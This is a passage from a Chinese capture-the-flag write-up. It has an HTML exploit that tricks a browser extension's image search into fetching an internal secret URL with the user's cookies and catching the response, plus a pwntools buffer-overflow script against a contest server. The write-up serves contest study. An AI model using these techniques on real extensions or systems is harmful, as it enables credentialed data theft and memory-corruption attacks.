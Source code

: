 ```html
    <title>Document</title>
</head>

<body>
    <img id="img1" src="http://127.0.1.14:1919/secret" alt="" width="200" height="200">

    <script>
        setTimeout(() => {
            // 截获插件发送的消息，修改页面标题
            window.addEventListener("sendDataToContentScript", (e) => {
                document.title = event.detail.message;
            });

            // 把鼠标移动到图片上，否则搜索按钮没有完成初始化，后续会弹出搜索页面，但无法正常工作
            document.getElementById("img1").dispatchEvent(new MouseEvent("mousemove", {
                clientX: 150,
                clientY: 150,
                bubbles: true,
                cancelable: true,
                view: window
            }));

            // 点击搜索按钮
            document.querySelector(".index-module__imgSearch_hover_content--c5JEb").dispatchEvent(
                new PointerEvent('click', {bubbles: true, cancelable: true})
            );
        }, 1000);

    </script>
</body>

</html>
```

### 原理
这个插件实现以图片搜索商品的方式非常的不安全：
1. 监听所有的`mousemove`事件，当其`target`为图片元素时，在其上显示一个搜索按钮（实际的实现在`contentScript.bundle.js`的最后，自己去找对应的`Qw`函数）。
2. 当用户点击搜索按钮时，向`background.bundle.js`发送一个`imgUrl2Base64_send`消息，其中包含了图片的`src`属性。
3. `background.bundle.js`接收到消息后，对`src`发起请求，获取其响应的Data URL。此时由于我们的身份是后台脚本，且`host_permissions`中包含了所有URL，因此发出的请求是带有Cookie的。
4. 使用`sendDataToContentScript`事件将Data URL发送给页面，上述页面会截获该事件。

# Binary
## Fast Or Clever `binary-racecar`
```python

from pwn import *

conn = remote('prob11.geekgame.pku.edu.cn', 10011)
conn.recvuntil(b':', drop=True)

conn.send(b"2042:***\n")
print("Token sent")
conn.recvuntil(b':', drop=True)
conn.send(b"4\n") # 先把flag长度设置为4，过掉第一次检查
conn.send(b"Z" * 0x100 + b"\xFF\x00\x00\x00") # 这里看似限制0x100个字符，实际上是0x104个字节，超出的部分会溢出到`usleep_time`变量
conn.send(b"48\n") # 恢复实际的flag长度

print("Payload sent")
```